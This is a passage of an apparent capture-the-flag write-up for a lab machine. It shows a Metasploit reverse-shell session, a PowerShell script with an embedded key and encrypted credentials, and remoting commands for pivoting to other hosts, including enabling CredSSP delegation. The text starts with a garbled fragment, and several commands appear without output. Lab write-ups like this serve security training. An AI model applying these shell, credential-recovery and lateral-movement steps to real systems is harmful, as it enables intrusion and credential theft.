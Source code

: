 ```

]>
```

Sweet got a shell, but getting a shell is only the beginning... 

_getting a shell after successful exploitation_
```
msf exploit(multi/handler) > [*] Command shell session 1 opened (10.10.15.74:443 -> 10.10.10.62:47692) at 2018-06-21 22:09:31 -0400

msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
/var/www/uploads
ls -la
total 24
drwxr-xr-x 2 root root 4096 Oct  5  2017 .
drwxr-xr-x 6 root root 4096 Oct  5  2017 ..
-rw-r--r-- 1 root root  714 Oct  4  2017 Fulcrum_Upload_to_Corp.ps1
-rw-r--r-- 1 root root  321 Oct  4  2017 home.php
-rw-r--r-- 1 root root  255 Oct  5  2017 index.php
-rw-r--r-- 1 root root  113 Oct  4  2017 upload.php
```

This shell is extremely unstable & will die after a few minutes, so I recommend throwing yourself a regular socat/netcat shell.

## Pivoting
### Decrypting/Recovering Credentials in Script for PSRemoting

Interestly we discover that there is a powershell script on the box, this is pretty unusual because this machine is labelled as a Linux system. 

__Contents of Fulcrum_Upload_to_Corp.ps1__
```Powershell
# TODO: Forward the PowerShell remoting port to the external interface
# Password is now encrypted \o/

$1 = 'WebUser'
$2 = '77,52,110,103,63,109,63,110,116,80,97,53,53,77,52,110,103,63,109,63,110,116,80,97,53,53,48,48,48,48,48,48' -split ','
$3 = '76492d1116743f0423413b16050a5345MgB8AEQAVABpAHoAWgBvAFUALwBXAHEAcABKAFoAQQBNAGEARgArAGYAVgBGAGcAPQA9AHwAOQAwADgANwAxADIAZgA1ADgANwBiADIAYQBjADgAZQAzAGYAOQBkADgANQAzADcAMQA3AGYAOQBhADMAZQAxAGQAYwA2AGIANQA3ADUAYQA1ADUAMwA2ADgAMgBmADUAZgA3AGQAMwA4AGQAOAA2ADIAMgAzAGIAYgAxADMANAA='
$4 = $3 | ConvertTo-SecureString -key $2
$5 = New-Object System.Management.Automation.PSCredential ($1, $4)

Invoke-Command -Computer upload.fulcrum.local -Credential $5 -File Data.ps1
```


[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserName
[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserDomain
[192.168.30.130]: PS C:\Users\WebUser\Documents> dir
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\user.txt
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\CheckFileServer.ps1
[192.168.30.130]: PS C:\inetpub\wwwroot> dir
[192.168.30.130]: PS C:\inetpub\wwwroot> type web.config
[192.168.30.130]: PS C:\inetpub\wwwroot>
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enter-PSSession -Computername file.fulcrum.local -Credential fulcrum.local\btables
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enable-WSManCredSSP –Role Client –DelegateComputer spoke